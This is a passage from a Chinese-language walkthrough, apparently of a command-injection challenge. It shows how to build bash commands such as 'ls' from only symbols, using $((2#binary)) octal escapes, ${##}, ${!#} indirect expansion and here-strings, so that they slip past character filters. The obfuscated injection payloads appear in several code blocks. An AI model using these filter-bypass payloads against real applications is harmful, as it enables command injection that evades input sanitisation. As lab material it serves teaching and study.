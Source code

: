 将两者结合到一起可以写成组合 `${##}`  基于bash扩展运算的优先级，第一个#是功能作用第二个#作为变量名称 - **0作为字符串长度为1**.

```
bash-5.1# echo ${##}
1
```

所以对于 ls 命令：

```
→ $0<<<$0\<\<\<\$\'\\$(($((1<<1))#10011010))\\$(($((1<<1))#10100011))\'

→ $0<<<$0\<\<\<\$\'\\$(($((${##}<<${##}))#${##}00${##}${##}0${##}0))\\$(($((${##}<<${##}))#${##}0${##}000${##}${##}))\'
```

#### Level 12 - 数字0的特殊变量替换

**间接扩展特性**——`${!xxx}`，它表示用xxx的值作为另一个变量的名字，然后取出那个变量的值:

```
如果a=0，b=1，c=2，那么 ${!a} 就相当于 $0 ， ${!b} 就相当于 $1 ， ${!c} 就相当于 $2 
bash-5.1# a=0
bash-5.1# echo ${!a}
bash
```

利用这个特性可以进一步替换：

```
→ ${!#}<<<${!#}\<\<\<\$\'\\$(($((${##}<<${##}))#${##}${#}${#}${##}${##}${#}${##}${#}))\\$(($((${##}<<${##}))#${##}${#}${##}${#}${#}${#}${##}${##}))\'
```

但是这在PHP中并没有实现，看起来是因为sh的原因，但可以直接在bash中使用。

```
sh-5.1# echo $0
sh
sh-5.1# echo $#
0
sh-5.1# echo ${##}
1
sh-5.1# echo ${!#}

sh-5.1# echo ${!#} | base64
Cg==
sh-5.1# echo $?
0
sh-5.1# echo ${!?}
sh: !: parameter not set
```

所以该关卡我们使用Python来构建虚拟终端，使其直接与bash交互，那么对应的替换命令就能正常使用。

#### Level 13 - 特殊扩展替换任意数字

在前面我们用的 `$((2#binary))` 的方式来引入二进制，如果`#`被禁用呢？
